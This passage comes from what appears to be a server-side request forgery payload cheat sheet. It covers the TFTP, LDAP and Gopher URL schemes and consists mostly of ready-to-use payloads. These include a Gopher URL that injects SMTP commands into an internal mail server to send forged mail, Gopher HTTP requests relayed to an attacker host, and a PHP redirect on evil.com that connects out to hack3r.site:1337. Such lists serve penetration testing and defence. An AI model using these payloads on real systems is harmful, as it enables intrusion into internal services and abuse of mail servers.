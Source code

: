 ### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

#### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
